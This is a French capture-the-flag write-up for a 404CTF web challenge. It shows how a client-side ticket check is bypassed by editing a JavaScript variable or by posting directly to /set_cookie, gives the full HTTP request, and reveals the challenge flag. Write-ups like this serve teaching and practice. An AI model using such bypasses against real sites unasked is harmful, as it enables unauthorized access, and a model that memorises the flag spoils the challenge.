 # Vous êtes en RETARD
## Enoncé
> Vous voilà devant le stade pour voir le dernier match de votre équipe préférée, le Gorfou FC !
> Malheureusement, vous êtes arrivé.e en retard et l'entrée est fermée... Mais pas de panique, il vous suffit de trouver un moyen pour quand même rentrer !

Auteur: **@Asumamusa**
 
Connexion: `https://en-retard.challenges.404ctf.fr`

## Analyse

On arrive directement sur une page vierge avec un panneau nous signalant une interdiction

<p align="center">
    <img src="../image/404CTFWeb1.png" alt="img1" style="width:40%;">
</p>

En inspectant le code source on tombe sur un script js intéressant:
```javascript
setInterval(function() {
    var panneau = document.querySelector('.panneau');
    var barre = document.querySelector('.barre-en-fer');
    if (!panneau && barre) {
        barre.remove();
    }
}, 100);

document.querySelector('.entrer-dans-le-stade').addEventListener('click', function() {
    window.location.href = '/donnez-moi-mon-ticket-pitie';
});

window.onload = function() {
    var cookies = document.cookie.split('; ');
    var fraudeur = cookies.find(row => row.startsWith('fraude='));

    if (fraudeur && fraudeur.split('=')[1] === 'true') {
        var zoneTexte = document.querySelector('.zone-texte');
        zoneTexte.textContent = 'Vous avez essayé de frauder, mais le vigile vous a aperçu et vous a ramené à l\'entrée...';
        zoneTexte.style.display = 'block';
    }
};
```
On se rend sur le chemin `/donnez-moi-mon-ticket-pitie` et on trouve encore une fois un nouveau script js:
```javascript
var bouton = document.querySelector('.valider-billet');
var billet = document.querySelector('.billet');
window.validable = [];
bouton.addEventListener('click', function() {
    if (window.validable.includes(billet.id)) {
        fetch('/set_cookie', {method: 'POST'}).then(function() {
            window.location.href = "/devant-le-match";
        });
    } else {
        alert('Billet non validé');
    }
});

## Exploitation
```
On peut alors soit modifier la variable `window.validable` pour y inclue un id, soit directement faire une requête POST au chemin `/set_cookie`.
```http
POST /set_cookie HTTP/2
Host: en-retard.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

Le flag est reçu sous forme de cookie en clair `allergies=404CTF{gluten-sucre-au-sucre}`

Flag: **404CTF{gluten-sucre-au-sucre}**